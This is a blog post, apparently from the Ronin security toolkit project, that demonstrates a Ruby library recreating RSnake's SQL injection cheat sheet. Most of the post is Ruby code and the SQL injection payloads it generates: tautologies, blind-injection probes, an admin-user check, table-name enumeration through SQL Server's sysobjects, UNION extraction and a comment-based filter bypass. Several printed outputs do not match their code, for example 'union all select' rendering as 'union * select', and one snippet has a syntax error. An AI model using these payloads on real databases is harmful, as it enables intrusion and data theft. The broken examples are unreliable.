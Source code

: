 ```yaml
---
layout: post
title: RSnakes SQLi Cheat Sheet using Ronin SQL
author: postmodern
---
```


One of the planned features listed in the
[Spring Cleaning Campaign (2010)](/blog/2010/01/12/spring-cleaning.html)
was a simple Ruby->SQL encoder for the
[Ronin SQL](http://github.com/ronin-ruby/ronin-sql/) library, to replace the
overly complex Ronin SQL DSL. This encoder would format Ruby Integers,
Strings, Arrays and Hashes into fragments of proper SQL.

The Ruby->SQL encoder has gotten to the point
of being able to recreate most of the examples from
[RSnake's SQL Injection Cheat Sheet](http://ha.ckers.org/sqlinjection/):

Load `ronin/code/sql`:

{% highlight ruby %}
require 'ronin/code/sql' 
include Ronin

sql = Code.sql
{% endhighlight %}

Normal SQL Injection:

{% highlight ruby %}
sql[1, :or, 1, :eq, 1].to_sql
# => "1 or 1 = 1"
{% endhighlight %}

Normal SQL Injection using encapsulated data:

{% highlight ruby %}
sql['1', :or '1', :eq, '1'].to_sql
# => "'1' or '1' = '1'"
{% endhighlight %}

Blind SQL Injection creating an error using EXEC:

{% highlight ruby %}
sql[1, :exec, :sp_, [sql[:or, :exec, :xp_]]].to_sql
# => "1 exec sp_ (or exec xp_)"
{% endhighlight %}

Blind SQL Injection detection:

{% highlight ruby %}
sql[1, :and, 1, :eq, 1].to_sql
# => "1 and 1 = 1"
{% endhighlight %}

Blind SQL Injection to attempt to locate `table_name` by brute-force
iteration through table name permutations:

{% highlight ruby %}
sql['1', :and, 1, :eq, [sql[:select, sql.count(:all), :from, :table_name]]].to_sql
# => "'1' and 1 = (select count(*) from tablenames)"
{% endhighlight %}

Using the `USER_NAME()` function in SQL Server to tell us if the user is
running as the administrator:

{% highlight ruby %}
sql[1, :and, sql.user_name(), :eq, 'dbo'].to_sql
# => "1 and user_name() = 'dbo'"
{% endhighlight %}

Creating errors by calling non-existant tables:

{% highlight ruby %}
sql[1, :and, :non_existant_table, :eq, '1'].to_sql
# => "1 and non_existant_table = '1'"
{% endhighlight %}

Dumping usernames:

{% highlight ruby %}
sql[:or, :username, :is, :not, nil, :or, :username, :eq].to_sql
# => "or username is not null or username ="
{% endhighlight %}

Enumerating through database table names:

{% highlight ruby %}
sql[1, :and, sql.ascii(
  sql.lower(
    sql.substring(
      [sql[:select, :top, 1, :name, :from, :sysObjects, :where, :xtype, :eq, 'U']], 1, 1
    )
  )
), :gt, 116].to_sql
# => "1 and ascii(lower(substring((select top 1 name from sysobjects where xtype = 'U'),1,1))) > 116"
{% endhighlight %}

Finding user supplied tables using the `sysObjects` table in SQL Server:

{% highlight ruby %}
sql[1, :union, :all, :select, [1,2,3,4,5,6,:name], :from, :sysObjects, :where, :xtype, :eq, 'U'].to_sql
# => "1 union * select (1,2,3,4,5,6,name) from sysObjects where xtype = 'U'"
{% endhighlight %}

Bypassing filter using `/**/` instead of spaces:

{% highlight ruby %}
stmt = sql[1, :union, :select, :all, :from, :where]
stmt.to_sql
# => "1 union select * from where"

stmt.to_sql(:spaces => false)
# => "1/**/union/**/select/**/*/**/from/**/where"
{% endhighlight %}

<div class="note">
  <p>
  I cheated a little by leaving off the prefix/suffix tick-marks used in
  SQL injections, but you get the general idea.
  </p>
</div>

New SQL fragments are created using the `sql[...]` syntax, and new SQL
function calls are created with `sql.func_name`. Note, that you can nest
SQL fragments by using the `[sql[...]]` or `[sql.func_name(....)]` syntax.

